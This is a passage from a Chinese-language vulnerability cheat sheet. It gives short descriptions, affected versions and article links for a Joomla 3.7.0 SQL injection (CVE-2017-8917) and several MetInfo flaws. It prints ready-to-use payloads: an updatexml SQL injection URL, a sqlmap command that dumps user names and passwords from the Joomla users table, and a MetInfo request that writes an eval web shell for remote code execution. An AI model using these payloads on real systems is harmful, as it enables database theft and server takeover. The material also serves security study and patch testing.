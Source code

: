     Joomla 于5月17日发布了新版本 3.7.1,本次更新中修复一个高危 SQL 注入漏洞,成功利用该漏洞后攻击者可以在未授权的情况下进行 SQL 注入。

- 影响版本
    - joomla 3.7.0

- 文章
    - [Joomla! 3.7 Core SQL 注入 (CVE-2017-8917)漏洞分析](https://paper.seebug.org/305/)

- POC | Payload | exp
    ```
    http://你的 IP 地址:端口号/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
    ```

    sqlmap payload
    ```bash
    sqlmap -u "http://192.168.1.1/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -T '#__users' -C name,password --dump
    ```

---

## MetInfo

> 官网: https://www.metinfo.cn/

**文章**
- [MetInfo5.3.19安装过程过滤不严导致Getshell](https://bbs.ichunqiu.com/thread-35305-1-17.html)
- [MetInfo6.0.0漏洞集合(一)](https://bbs.ichunqiu.com/thread-43416-1-7.html)
- [MetInfo6.1.0 漏洞(二)](https://bbs.ichunqiu.com/thread-43625-1-4.html)
- [Metinfo 6.1.2 SQL注入](https://bbs.ichunqiu.com/thread-46687-1-1.html)
- [metinfo最新版本后台getshell](https://bbs.ichunqiu.com/thread-29686-1-2.html)
- [Metinfo7的一些鸡肋漏洞](https://evi1.cn/post/metinfo7-bug/)
- [Metinfo7.0 SQL Blind Injection](https://github.com/T3qui1a/metinfo_sqlinjection/issues/1)

**CVE-2018-13024**
- 简介

    远程攻击者可通过向 admin/column/save.php 文件发送 `module` 参数利用该漏洞向 .php 文件写入代码并执行该代码.

- 影响版本
    - MetInfo 5.3.16
    - MetInfo 6.0.0

- 文章
    - [CVE-2018-13024复现及一次简单的内网渗透](https://www.freebuf.com/news/193748.html)

- POC | Payload | exp

    - `admin/column/save.php?name=123&action=editor&foldername=upload&module=22;@eval($_POST[1]);/*`

---

## October
